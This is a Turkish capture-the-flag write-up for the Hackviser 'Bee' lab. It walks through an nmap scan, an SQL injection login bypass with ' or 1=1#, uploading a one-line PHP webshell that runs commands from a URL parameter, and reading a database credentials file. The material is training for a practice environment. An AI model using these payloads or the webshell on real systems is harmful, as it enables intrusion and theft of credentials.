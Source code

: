 ```yaml
---
title: Bee 
date: 2024-03-27 12:24:12 
categories: [Hackviser]
tags: [SQLi,File Upload]  
image: /images/bee.webp
---
```

Bu makine, veritabanını istismar etmeye neden olan SQL Injection ve sunucuya zararlı dosyaların yüklenmesine sebebiyet veren File Upload zafiyetlerinin nasıl istismar edileceğini öğretmeye odaklanır.

SQL Injection ve File Upload zafiyetlerinin nasıl keşfedileceği ve bu zafiyetlerin nasıl istismar edileceği ile ilgili alıştırmalar yapmak için önerilir.

---

<a href="https://app.hackviser.com/warmups/bee">Bee</a>

---

Hangi portlar açık?

````bash
┌──(root㉿kali)-[~]
└─# nmap -T4 -sV 172.20.4.54 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-29 01:22 EDT
Nmap scan report for 172.20.4.54 (172.20.4.54)
Host is up (0.074s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.56 ((Debian))
3306/tcp open  mysql   MySQL (unauthorized)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.24 seconds
````

- 80,3306

Sitede oturum açabilmek için hosts dosyasına hangi domaini eklediniz?

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/Hackviser/Bee/images/1.png?raw=true)
 

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/Hackviser/Bee/images/2.png?raw=true)
 

Login butonuna tıkladığımızda dashboard.innovifyai.hackviser sitesine gidiyor. Ancak websitesi açılmıyor, hata veriyor.

/etc/hosts dosyasına domain adresini eklersek sorunumuz çözülür.

````bash
echo "172.20.4.54 dashboard.innovifyai.hackviser" >> /etc/hosts
````

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/Hackviser/Bee/images/3.png?raw=true)
 

Artık login sayfasına erişebiliyoruz.


Hangi zafiyet ile login panelini bypass ettiniz?


Başlıkta belirtildiği üzere SQL injection zafiyeti olduğunu varsayarak email kısmına `' or 1=1#` payloadunu kullanarak login panelini bypass etmeyi denedim. Öncelikle eposta alanına istediğimizi yazabimemiz için sayfaya sağ tıklayıp sayfayı incele dedikten sonra ilgili input etiketini bulmamız ve type="email" özelliğini silmemiz gerekiyor.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/Hackviser/Bee/images/4.png?raw=true)



Ve başarılı oldum.


![](https://github.com/umutsaglam/CTF-Writeups/blob/main/Hackviser/Bee/images/5.png?raw=true)




Login'i bypass ederek erişim elde ettiğiniz panelde kullanıcı ayarlarını içeren sayfanın adı ve uzantısı nedir?


- settings.php


File upload zafiyeti ile makinede shell aldığınız kullanıcının id’si nedir?

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/Hackviser/Bee/images/6.png?raw=true)


settings.php dizininde fotoğraf yükleme alanı mevcut. Bir webshell dosyası oluşturup yüklemeyi deniyorum.


````bash
echo "<?php system($_GET['cmd']); ?>" > webshell.php
````

>Bu payload; URL’den "cmd" GET parametresi ile komut alır ve sunucunun terminalinde bu komutu çalıştırarak sonucunu web sayfasında gösterir.
{: .prompt-tip }


/uploads dizinine gittiğimde webshell.php dosyasının yüklendiğini görüyorum.


`http://dashboard.innovifyai.hackviser/uploads/webshell.php?cmd=KOMUT` ile komut çalıştırabiliriz.


`http://dashboard.innovifyai.hackviser/uploads/webshell.php?cmd=ls ../` ile bir üst dizini listelediğimde db_connect.php dosyasını görüntülüyorum.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/Hackviser/Bee/images/7.png?raw=true)



MySQL parolasının bu dosyada olduğunu düşünüp dosyayı görüntülüyorum.


![](https://github.com/umutsaglam/CTF-Writeups/blob/main/Hackviser/Bee/images/8.png?raw=true)



Görüntülemeye çalıştığımızda hata almış olsak bile sayfanın kaynak kodunu incelediğimizde istediğimiz bilgilere erişiyoruz.


![](https://github.com/umutsaglam/CTF-Writeups/blob/main/Hackviser/Bee/images/9.png?raw=true)


![fsoc](/images/fsoc.gif)



